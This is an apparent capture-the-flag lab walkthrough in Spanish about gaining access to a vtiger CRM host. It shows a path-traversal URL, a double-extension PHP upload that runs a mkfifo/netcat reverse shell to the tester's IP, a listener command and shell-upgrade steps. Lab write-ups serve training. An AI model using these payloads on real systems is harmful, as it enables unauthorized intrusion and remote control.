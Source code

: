 ## Vuln exploit & Gaining Access {-}

### Ganando accesso desde el vtiger {-}

Si analyzamos la url `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action`, vemos
una parte que seria `https://10.10.10.7/vtigercrm`. Si vamos en esta url hay otro panel de session.

Copiando una vez mas las credenciales del usuario admin, podemos entrar en el dashboard de **vtiger CRM**.

Aqui la idea para ganar accesso al systema, viene de una vulnerabilidad que pasa por cambiar el logo de la compania con un fichero de doble extension.

Si vamos a `Settings > Settings > Company Details > edit`, aqui vemos que podemos cargar un fichero `.jpg` para cambiar el logo de la empresa.

1. Creamos un fichero con doble extension s4vishell.php.jpg

    ```php
    <?php
        system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f");
    ?>
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Uploadeamos el fichero a la web y cuando le damos a save ya hemos ganado accesso al systema.


```bash
whoami
#Output
asterisk
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```




